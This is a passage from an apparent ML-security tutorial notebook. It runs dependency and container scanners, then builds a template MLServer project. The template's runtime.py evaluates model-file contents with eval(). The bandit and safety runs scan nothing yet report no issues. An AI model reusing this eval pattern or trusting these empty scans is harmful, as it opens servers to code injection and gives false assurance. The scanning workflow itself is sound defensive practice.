    python-versions = ">=2.7, !=3.0.*, !=3.1.*, !=3.2.*, !=3.3.*, !=3.4.*"
    
    [package.extras]
    dev = ["coverage[toml] (>=5.0.2)", "hypothesis", "pympler", "pytest (>=4.3.0)", "six", "mypy", "pytest-mypy-plugins", "zope.interface", "furo", "sphinx", "sphinx-notfound-page", "pre-commit", "cloudpickle"]
    docs = ["furo", "sphinx", "zope.interface", "sphinx-notfound-page"]
    tests = ["coverage[toml] (>=5.0.2)", "hypothesis", "pympler", "pytest (>=4.3.0)", "six", "mypy", "pytest-mypy-plugins", "zope.interface", "cloudpickle"]


#### Scanning Python Versions against CVE Database


```python
!pip install safety
```

    Requirement already satisfied: safety in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (1.10.3)
    Requirement already satisfied: requests in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from safety) (2.27.1)
    Requirement already satisfied: Click>=6.0 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from safety) (8.0.4)
    Requirement already satisfied: packaging in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from safety) (21.3)
    Requirement already satisfied: setuptools in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from safety) (62.0.0)
    Requirement already satisfied: dparse>=0.5.1 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from safety) (0.5.1)
    Requirement already satisfied: importlib-metadata in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from Click>=6.0->safety) (4.11.3)
    Requirement already satisfied: toml in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from dparse>=0.5.1->safety) (0.10.2)
    Requirement already satisfied: pyyaml in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from dparse>=0.5.1->safety) (5.4.1)
    Requirement already satisfied: pyparsing!=3.0.5,>=2.0.2 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from packaging->safety) (3.0.8)
    Requirement already satisfied: idna<4,>=2.5 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->safety) (3.3)
    Requirement already satisfied: certifi>=2017.4.17 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->safety) (2021.10.8)
    Requirement already satisfied: charset-normalizer~=2.0.0 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->safety) (2.0.12)
    Requirement already satisfied: urllib3<1.27,>=1.21.1 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->safety) (1.26.5)
    Requirement already satisfied: zipp>=0.5 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from importlib-metadata->Click>=6.0->safety) (3.8.0)
    Requirement already satisfied: typing-extensions>=3.6.4 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from importlib-metadata->Click>=6.0->safety) (4.1.1)


```python
!safety check -r requirements-freeze.txt
```

    Warning: unpinned requirement 'grpcio' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'more-itertools' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'packaging' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'pluggy' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'py' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'pyparsing' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'pytest' found in requirements-freeze.txt, unable to check.
    Warning: unpinned requirement 'wcwidth' found in requirements-freeze.txt, unable to check.
    +==============================================================================+
    |                                                                              |
    |                               /$$$$$$            /$$                         |
    |                              /$$__  $$          | $$                         |
    |           /$$$$$$$  /$$$$$$ | $$  \__//$$$$$$  /$$$$$$   /$$   /$$           |
    |          /$$_____/ |____  $$| $$$$   /$$__  $$|_  $$_/  | $$  | $$           |
    |         |  $$$$$$   /$$$$$$$| $$_/  | $$$$$$$$  | $$    | $$  | $$           |
    |          \____  $$ /$$__  $$| $$    | $$_____/  | $$ /$$| $$  | $$           |
    |          /$$$$$$$/|  $$$$$$$| $$    |  $$$$$$$  |  $$$$/|  $$$$$$$           |
    |         |_______/  \_______/|__/     \_______/   \___/   \____  $$           |
    |                                                          /$$  | $$           |
    |                                                         |  $$$$$$/           |
    |  by pyup.io                                              \______/            |
    |                                                                              |
    +==============================================================================+
    | REPORT                                                                       |
    | checked 60 packages, using free DB (updated once a month)                    |
    +============================+===========+==========================+==========+
    | package                    | installed | affected                 | ID       |
    +============================+===========+==========================+==========+
    | numpy                      | 1.21.5    | <1.22.0                  | 44717    |
    | numpy                      | 1.21.5    | <1.22.0                  | 44716    |
    | numpy                      | 1.21.5    | <1.22.2                  | 44715    |
    +==============================================================================+


#### Identifying Old Dependencies

Ensuring dependencies are up to date continuously is important. There are older dependencies like `piprot` but also good tools like `dependeabot`.


```python
!pip install piprot
```

    Collecting piprot
      Downloading piprot-0.9.11.tar.gz (8.5 kB)
      Preparing metadata (setup.py) ... [?25ldone
    [?25hRequirement already satisfied: requests in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from piprot) (2.27.1)
    Collecting requests-futures
      Downloading requests_futures-1.0.0-py2.py3-none-any.whl (7.4 kB)
    Requirement already satisfied: six in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from piprot) (1.16.0)
    Requirement already satisfied: certifi>=2017.4.17 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->piprot) (2021.10.8)
    Requirement already satisfied: idna<4,>=2.5 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->piprot) (3.3)
    Requirement already satisfied: charset-normalizer~=2.0.0 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->piprot) (2.0.12)
    Requirement already satisfied: urllib3<1.27,>=1.21.1 in /home/alejandro/miniconda3/envs/fml-security/lib/python3.7/site-packages (from requests->piprot) (1.26.5)
    Building wheels for collected packages: piprot
      Building wheel for piprot (setup.py) ... [?25ldone
    [?25h  Created wheel for piprot: filename=piprot-0.9.11-py2.py3-none-any.whl size=7939 sha256=91e4561d9861e29b801b7a3bf433a281180b5d438f0507726b529f2ce9007643
      Stored in directory: /home/alejandro/.cache/pip/wheels/4f/9c/3e/63acac74a6d463ff5f08b0d51c0891b7a33e591c0a1dc3bb59
    Successfully built piprot
    Installing collected packages: requests-futures, piprot
    Successfully installed piprot-0.9.11 requests-futures-1.0.0


```python
!piprot requirements-freeze.txt
```

    attrs (21.4.0) is up to date
    bcrypt (3.1.7) is 925 days out of date. Latest is 3.2.0
    certifi (2021.10.8) is up to date
    cffi (1.15.0) is up to date
    charset-normalizer (2.0.12) is up to date
    click (8.0.4) is 41 days out of date. Latest is 8.1.2
    cryptography (3.4.8) is 203 days out of date. Latest is 36.0.2
    docker-compose (1.25.0) is 538 days out of date. Latest is 1.29.2
    dockerpty (0.4.1) is up to date
    docopt (0.6.2) is up to date
    Flask (1.1.2) is 726 days out of date. Latest is 2.1.1
    Flask-Cors (3.0.10) is up to date
    Flask-OpenTracing (1.1.0) is up to date
    flatbuffers (1.12) is 423 days out of date. Latest is 2.0
    grpcio (1.44.0) is 34 days out of date. Latest is 1.45.0
    grpcio-opentracing (1.1.4) is up to date
    grpcio-reflection (1.34.1) is 434 days out of date. Latest is 1.45.0
    gunicorn (20.1.0) is up to date
    idna (3.3) is up to date
    importlib-metadata (4.11.3) is up to date
    itsdangerous (1.1.0) is 1244 days out of date. Latest is 2.1.2
    jaeger-client (4.4.0) is 250 days out of date. Latest is 4.8.0
    Jinja2 (2.11.3) is 418 days out of date. Latest is 3.1.1
    joblib (0.16.0) is 462 days out of date. Latest is 1.1.0
    jsonschema (3.2.0) is 785 days out of date. Latest is 4.4.0
    MarkupSafe (1.1.1) is 1115 days out of date. Latest is 2.1.1
    numpy (1.21.5) is 77 days out of date. Latest is 1.22.3
    opentracing (2.4.0) is up to date
    paramiko (2.7.1) is 829 days out of date. Latest is 2.10.3
    pipdeptree (2.2.1) is up to date
    prometheus-client (0.8.0) is 683 days out of date. Latest is 0.14.1
    protobuf (3.20.0) is up to date
    pycparser (2.21) is up to date
    PyNaCl (1.3.0) is 1199 days out of date. Latest is 1.5.0
    pyrsistent (0.18.1) is up to date
    PyYAML (5.4.1) is 265 days out of date. Latest is 6.0
    requests (2.27.1) is up to date
    scikit-learn (0.24.2) is 241 days out of date. Latest is 1.0.2
    scipy (1.7.3) is 68 days out of date. Latest is 1.8.0
    seldon-core (1.13.1) is up to date
    six (1.16.0) is up to date
    texttable (1.6.2) is 545 days out of date. Latest is 1.6.4
    threadloop (1.0.2) is up to date
    threadpoolctl (3.1.0) is up to date
    thrift (0.16.0) is up to date
    tornado (6.1) is up to date
    typing_extensions (4.1.1) is up to date
    urllib3 (1.26.5) is 293 days out of date. Latest is 1.26.9
    Werkzeug (2.1.1) is up to date
    zipp (3.8.0) is up to date
    Your requirements are 11798 days out of date


```bash
%%bash
mkdir -p owasp/deps owasp/data/cache owasp/report
docker run --rm \
    -e user=$USER \
    -u $(id -u ${USER}):$(id -g ${USER}) \
    --volume $(pwd):/src:z \
    --volume $(pwd)/owasp/data:/usr/share/dependency-check/data:z \
    --volume $(pwd)/owasp/report:/report:z \
    owasp/dependency-check:latest \
    --scan /src \
    --format "ALL" \
    --project "dependency-check scan: $(pwd)" \
    --out /report
```

    [INFO] Checking for updates
    [INFO] Skipping NVD check since last check was within 4 hours.
    [INFO] Skipping RetireJS update since last update was within 24 hours.
    [INFO] Check for updates complete (29 ms)
    [INFO] 
    
    Dependency-Check is an open source tool performing a best effort analysis of 3rd party dependencies; false positives and false negatives may exist in the analysis performed by the tool. Use of the tool and the reporting provided constitutes acceptance for use in an AS IS condition, and there are NO warranties, implied or otherwise, with regard to the analysis or its use. Any use of the tool and the reporting provided is at the user’s risk. In no event shall the copyright holder or OWASP be held liable for any damages whatsoever arising out of or in connection with the use of this tool, the analysis performed, or the resulting report.
    
    
       About ODC: https://jeremylong.github.io/DependencyCheck/general/internals.html
       False Positives: https://jeremylong.github.io/DependencyCheck/general/suppression.html
    
    💖 Sponsor: https://github.com/sponsors/jeremylong
    
    
    [INFO] Analysis Started
    [INFO] Finished File Name Analyzer (0 seconds)
    [INFO] Finished Dependency Merging Analyzer (0 seconds)
    [INFO] Finished Version Filter Analyzer (0 seconds)
    [INFO] Finished Hint Analyzer (0 seconds)
    [INFO] Created CPE Index (3 seconds)
    [INFO] Finished CPE Analyzer (3 seconds)
    [INFO] Finished False Positive Analyzer (0 seconds)
    [INFO] Finished NVD CVE Analyzer (0 seconds)
    [INFO] Finished Sonatype OSS Index Analyzer (0 seconds)
    [INFO] Finished Vulnerability Suppression Analyzer (0 seconds)
    [INFO] Finished Dependency Bundling Analyzer (0 seconds)
    [INFO] Analysis Complete (3 seconds)
    [INFO] Writing report to: /report/dependency-check-report.xml
    [INFO] Writing report to: /report/dependency-check-report.html
    [INFO] Writing report to: /report/dependency-check-report.json
    [INFO] Writing report to: /report/dependency-check-report.csv
    [INFO] Writing report to: /report/dependency-check-report.sarif
    [INFO] Writing report to: /report/dependency-check-junit.xml


```python
!ls owasp/report
```

    dependency-check-junit.xml    dependency-check-report.json
    dependency-check-report.csv   dependency-check-report.sarif
    dependency-check-report.html  dependency-check-report.xml


```python
!cat owasp/report/dependency-check-report.csv
```

    "Project","ScanDate","DependencyName","DependencyPath","Description","License","Md5","Sha1","Identifiers","CPE","CVE","CWE","Vulnerability","Source","CVSSv2_Severity","CVSSv2_Score","CVSSv2","CVSSv3_BaseSeverity","CVSSv3_BaseScore","CVSSv3","CPE Confidence","Evidence Count"


## 6 - Container Scan


```python
!trivy image --severity CRITICAL seldonio/sklearnserver:1.14.0-dev
```

    2022-04-11T19:29:06.350+0100	INFO	Detected OS: redhat
    2022-04-11T19:29:06.350+0100	INFO	Detecting RHEL/CentOS vulnerabilities...
    2022-04-11T19:29:06.404+0100	INFO	Number of language-specific files: 1
    2022-04-11T19:29:06.404+0100	INFO	Detecting python-pkg vulnerabilities...
    
    seldonio/sklearnserver:1.14.0-dev (redhat 8.5)
    ==============================================
    Total: 0 (CRITICAL: 0)
    
    
    Python (python-pkg)
    ===================
    Total: 0 (CRITICAL: 0)
    


## Honourable Mentions


Above are a set of honorable mentions that are not covered in this notebook, but that would still be relevant to check out. You can follow the resources at the top for other links to relevant areas for deeper dives.

#### Exploring the OWASP Top 10 for ML



## Best Practices for ML Security


```python
%%writefile sml-security.yml
default_context:
    project_name: "Example Project"
```

    Writing sml-security.yml


```python
!cookiecutter https://github.com/EthicalML/sml-security --no-input --config-file sml-security.yml
```


```python
!tree example_project/
```

    example_project/
    ├── Dockerfile
    ├── LICENSE
    ├── Makefile
    ├── README.md
    ├── docs
    │   ├── Makefile
    │   ├── commands.rst
    │   ├── conf.py
    │   ├── examples
    │   │   └── model-settings.json
    │   ├── getting-started.rst
    │   ├── index.rst
    │   └── make.bat
    ├── example_project
    │   ├── __init__.py
    │   ├── common.py
    │   ├── runtime.py
    │   └── version.py
    ├── pyproject.toml
    ├── requirements-dev.txt
    ├── setup.py
    └── tests
        ├── conftest.py
        └── test_runtime.py
    
    4 directories, 20 files


```python
!cat example_project/pyproject.toml
```

    [tool.poetry]
    name = "Example Project"
    version = "0.1.0"
    description = "A short description of the project."
    authors = ["MyGithubUsername"]
    license = "MIT"
    
    [tool.poetry.dependencies]
    python = "^3.8"
    mlserver = "1.1.0.dev6"
    fastapi = "^0.78"
    
    [tool.poetry.dev-dependencies]
    Sphinx = "3.2.1"
    coverage = "4.5.4"
    flake8 = "3.9.0"
    
    safety = "1.10.3"
    piprot = "0.9.11"
    bandit = "1.7.4"
    
    
    [build-system]
    requires = ["poetry-core>=1.0.0"]
    build-backend = "poetry.core.masonry.api"


```python
!cat example_project/example_project/runtime.py
```

    import numpy as np
    from mlserver.model import MLModel
    from mlserver.settings import ModelSettings
    from fastapi import status
    from mlserver.utils import get_model_uri
    from mlserver.errors import InvalidModelURI, MLServerError
    from mlserver.types import (
        InferenceRequest,
        InferenceResponse,
    )
    from mlserver.codecs import NumpyCodec, NumpyRequestCodec
    from example_project.common import ExampleProjectSettings
    
    
    class ExampleProject(MLModel):
        """Runtime class for specific Huggingface models"""
    
        def __init__(self, settings: ModelSettings):
    
            self._extra_settings = ExampleProjectSettings(**settings.parameters.extra)  # type: ignore
    
            super().__init__(settings)
    
        async def load(self) -> bool:
            # Simple showcase reading a lambda as string either from file or 
            try:
                model_uri = await get_model_uri(self._settings)
                with open(model_uri, "r") as f:
                    self._model = eval(f.read())
            except (InvalidModelURI, IsADirectoryError):
                self._model = eval(self._extra_settings.lambda_value)
    
            if not callable(self._model):
                raise MLServerError("Invalid lambda value provided", status.HTTP_500_INTERNAL_SERVER_ERROR)
    
            self.ready = True
            return self.ready
    
        async def predict(self, payload: InferenceRequest) -> InferenceResponse:
            """
            Prediction request
            """
            # For more advanced request decoding see MLServer codecs documentation
            model_input = NumpyRequestCodec.decode(payload)
    
            model_output = self._model(model_input)
            model_output_np = np.array(model_output)
    
            encoded_output = NumpyCodec.encode("predict", model_output_np)
    
            return InferenceResponse(
                model_name=self.name,
                model_version=self.version,
                outputs=[encoded_output],
            )


```python
!make -C example_project/ local-run
```

    make: Entering directory '/home/alejandro/Programming/fml-security/example_project'
    mlserver start docs/examples/. &
    make: Leaving directory '/home/alejandro/Programming/fml-security/example_project'


```python
!make -C example_project/ local-test-request
```

    make: Entering directory '/home/alejandro/Programming/fml-security/example_project'
    curl http://localhost:8080/v2/models/test-model/infer \
    	-H "Content-Type: application/json" \
    	-d '{"inputs":[{"name":"test_input","shape":[3],"datatype":"INT32","data":[1,2,3]}]}'
    {"model_name":"test-model","model_version":null,"id":"894a189e-cce3-4329-aa71-495d5b61621e","parameters":null,"outputs":[{"name":"predict","shape":[],"datatype":"INT64","parameters":null,"data":[6]}]}make: Leaving directory '/home/alejandro/Programming/fml-security/example_project'


```python
!curl http://localhost:8080/v2/models/test-model/infer \
	-H "Content-Type: application/json" \
	-d '{"inputs":[{"name":"test_input","shape":[3],"datatype":"INT32","data":[1,2,3]}]}'
```

    {"model_name":"test-model","model_version":null,"id":"1aceb79b-15da-48fd-b17b-b3354cd068c0","parameters":null,"outputs":[{"name":"predict","shape":[],"datatype":"INT64","parameters":null,"data":[6]}]}


```python
!make -C example_project/ security-local-code
```

    make: Entering directory '/home/alejandro/Programming/fml-security/example_project'
    bandit .
    [main]	INFO	profile include tests: None
    [main]	INFO	profile exclude tests: None
    [main]	INFO	cli include tests: None
    [main]	INFO	cli exclude tests: None
    [main]	INFO	running on Python 3.7.10
    [manager]	WARNING	Skipping directory (.), use -r flag to scan contents
    Run started:2022-06-04 08:24:43.129814
    
    Test results:
    	No issues identified.
    
    Code scanned:
    	Total lines of code: 0
    	Total lines skipped (#nosec): 0
    
    Run metrics:
    	Total issues (by severity):
    		Undefined: 0
    		Low: 0
    		Medium: 0
    		High: 0
    	Total issues (by confidence):
    		Undefined: 0
    		Low: 0
    		Medium: 0
    		High: 0
    Files skipped (0):
    make: Leaving directory '/home/alejandro/Programming/fml-security/example_project'


```python
!make -C example_project/ security-local-dependencies
```

    make: Entering directory '/home/alejandro/Programming/fml-security/example_project'
    poetry export --without-hashes -f requirements.txt | safety check --full-report --stdin
    Warning: unpinned requirement 'NoCompatiblePythonVersionFound' found in <stdin>, unable to check.
    +==============================================================================+
    |                                                                              |
    |                               /$$$$$$            /$$                         |
    |                              /$$__  $$          | $$                         |
    |           /$$$$$$$  /$$$$$$ | $$  \__//$$$$$$  /$$$$$$   /$$   /$$           |
    |          /$$_____/ |____  $$| $$$$   /$$__  $$|_  $$_/  | $$  | $$           |
    |         |  $$$$$$   /$$$$$$$| $$_/  | $$$$$$$$  | $$    | $$  | $$           |
    |          \____  $$ /$$__  $$| $$    | $$_____/  | $$ /$$| $$  | $$           |
    |          /$$$$$$$/|  $$$$$$$| $$    |  $$$$$$$  |  $$$$/|  $$$$$$$           |
    |         |_______/  \_______/|__/     \_______/   \___/   \____  $$           |
    |                                                          /$$  | $$           |
    |                                                         |  $$$$$$/           |
    |  by pyup.io                                              \______/            |
    |                                                                              |
    +==============================================================================+
    | REPORT                                                                       |
    | checked 0 packages, using free DB (updated once a month)                     |
    +==============================================================================+
    | No known security vulnerabilities found.                                     |
    +==============================================================================+
    make: Leaving directory '/home/alejandro/Programming/fml-security/example_project'


```python
!make -C example_project/ security-local-dependencies-old
```

    make: Entering directory '/home/alejandro/Programming/fml-security/example_project'
    poetry export --without-hashes -f requirements.txt | piprot --latest --outdated -
    Looks like you've been keeping up to date, time for a delicious beverage!
    make: Leaving directory '/home/alejandro/Programming/fml-security/example_project'


```python

```
